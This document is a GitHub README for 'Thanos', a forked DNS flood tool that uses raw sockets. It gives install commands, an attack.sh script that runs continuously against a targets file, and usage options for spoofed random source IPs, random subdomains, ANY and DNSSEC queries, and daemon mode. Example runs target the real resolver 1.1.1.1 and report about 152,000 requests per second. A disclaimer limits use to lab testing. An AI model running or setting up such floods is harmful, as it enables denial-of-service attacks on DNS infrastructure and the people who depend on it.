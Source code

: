 # Thanos
This is a fork of https://github.com/hawell/dns-flood

This is a modified version of DNS-Flood tool codename Thanos. The code should not be used in the wild for DOS but for educational, lab testing and verification purposes only.

Use raw sockets to generate DNS flood.

In contrast to fork version it provides:
 - Support additional query (RR) Type - ANY, RRSIG, DNSKEY, HTTPS, SVCB (HTTPS and SVCB still in IETF drafts but already seen deployment)

## Forked version to install as `thanos`:

```
git clone https://github.com/0xdeadbeef0xbeefcafe/thanos.git
cd thanos
./install.sh
```

## Forked version to run continuously via script:
```
./attack.sh <-t targets_file>
```

## How to run

Usage:
```bash
./dnsflood <query_name> <destination_ip> [options]  
	Options:  
	-t, --type		query type  
	-s, --source-ip		source ip  
	-p, --dest-port		destination port  
	-P, --src-port		source port  
	-i, --interval		interval (in microseconds) between two packets  
	-n, --number		number of DNS requests to send  
	-d, --duration		run for at most this many seconds   
	-r, --random-src	fake random source IP
	-R, --random-sub	prefix with random subdomain names
	-S, --dnssec		make a dnssec query
	-D, --daemon		run as daemon  
	-h, --help		print this message   
```
Example:
```bash
sudo ./thanos_darwin maxng.net 1.1.1.1 -t ANY -d 1
sent 152648 DNS requests in 1.000000 sec.

sudo ./thanos_darwin maxng.net 1.1.1.1 -t ANY -n 30
sent 30 DNS requests in 0.000000 sec.
```

## How to Install
1. Download C file or clone
2. Compile using clang or gcc (code has been compiled using both clang and gcc for linux and OSX and works fine)
3. Use with care


## Credits for original version

Original DNS-Flood tool found on code.google.com

Use raw sockets to generate DNS flood.

Original Here: https://code.google.com/p/dns-flood/

## Disclaimer
The forked code enhancement was solely developed in my personal capacity and has no associations with my employers past or present.
